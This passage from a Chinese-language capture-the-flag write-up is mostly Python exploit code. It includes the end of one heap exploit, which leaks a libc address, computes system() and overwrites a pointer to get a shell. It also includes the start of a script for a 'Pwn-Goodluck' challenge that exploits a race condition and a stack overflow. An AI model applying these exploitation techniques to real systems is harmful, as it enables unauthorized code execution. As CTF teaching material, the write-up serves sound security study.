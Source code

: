 ```
 
    change(io, 3, l64(print_plt)[:-1])
 
    io.gdb_hint()
    delete(io, 0)
 
    io.read_until('0x')
    main_ret = int(io.read_until('De')[:-2], 16)
    base = main_ret - 0x0000000000021EC5
    print hex(base)
    system = base + 0x0000000000046640
    print hex(system)
 
    change(io, 3, l64(system)[:-1])
 
    delete(io, 7)
 
    interact(io)
 
exp(target)
```

**<br>**

**Pwn-Goodluck**

****

条件竞争漏洞，g_index的值可以在主线程中修改，然后在第2个子线程中能实现任意地址+1操作。

read_int如果参数为0，可以栈溢出。

脚本：

```
from threading import Thread
# from uploadflag import *
from zio import *
 
target = ('119.254.101.197', 10000)
target = './pwn2'
 
 
def add1(io,type,name,number,some):
      io.read_until("choice:")
      io.writeline('1')
      io.read_until("flower")
      io.writeline(str(type))
      io.read_until('name:')
      io.writeline(name)
      io.read_until('number:')
      io.writeline(str(number))
      io.read_until('again:')
      io.writeline(some)
 
def add2(io, type, name, much, price,   some):
      io.read_until("choice:")
      io.writeline('1')
      io.read_until("flower")
      io.writeline(str(type))
      io.read_until('name:')
      io.writeline(name)
      io.read_until('want:')
      io.writeline(much)
      io.read_until('table:')
      io.writeline(price)
```